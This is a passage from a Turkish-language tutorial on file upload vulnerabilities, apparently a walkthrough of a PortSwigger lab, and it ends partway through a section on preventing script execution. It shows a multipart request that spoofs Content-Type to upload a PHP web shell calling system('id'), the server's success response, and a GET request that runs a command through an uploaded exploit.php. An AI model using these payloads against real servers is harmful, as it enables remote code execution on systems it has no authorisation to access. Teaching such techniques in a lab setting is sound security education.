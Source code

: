 Yukarıda dönen cevapta (response) gördüğünüz üzere `'Content-Type:'` değeri ya **image/jpeg** ya da **image/png** olmalıdır diyor. O zaman bu değeri istediği gibi değiştiririz.

```
-----------------------------392026745735502370563725067926
Content-Disposition: form-data; name="avatar"; filename="abc.php"
Content-Type: image/jpeg

<?php
system('id');
?>
-----------------------------392026745735502370563725067926
Content-Disposition: form-data; name="user"

wiener
-----------------------------392026745735502370563725067926
Content-Disposition: form-data; name="csrf"

yyqgBGBlW4hJiWrb7ap3l7qOVVj3zJkM
-----------------------------392026745735502370563725067926--
```

**&#8659; RESPONSE &#8659;**

```
HTTP/1.1 200 OK
Date: Tue, 21 Dec 2021 08:00:56 GMT
Server: Apache/2.4.29 (Ubuntu)
Vary: Accept-Encoding
Connection: close
Content-Type: text/html; charset=UTF-8
Content-Length: 130

The file avatars/abc.php has been uploaded.<p><a href="/my-account" title="Return to previous page">« Back to My Account</a></p>
```

Gördüğünüz gibi başarılı  bir şekilde yükledik. Resmin yüklendiği endpoint'i ziyaret ederek sonuç elde edebiliriz. Resmin yüklendiği endpoint'i nasıl bulacaz diyorsanız , avatar resminize sağ tık yapıp resim url'ini kopyalayıp tarayıcınızdan o url'e gidin.

## Kullanıcının Erişebildiği Dizin İçerisinde Dosya Çalıştırılmasını Önleme

İlk bakışta yüklenecek tehlikeli dosya tiplerini önlemek daha iyi görülürken, ağ üzerinden akacak herhangi bir scriptin server tarafından çalıştırılmasını engellemek ikinci bir savunmadır. 

Önlem olarak serverlar genelde yalnızca çalıştırılmak için açıkça konfigüre edilmiş `'MIME Type'` ların olduğu scriptleri çalıştırırlar. Aksi takdirde bir tür hata mesajı döndürürler, bazı durumlarda ise düz metin olarak kodun çıktısını dönerler.

```
GET /static/exploit.php?command=id HTTP/1.1
Host: normal-website.com
```
**&#8659; RESPONSE &#8659;**
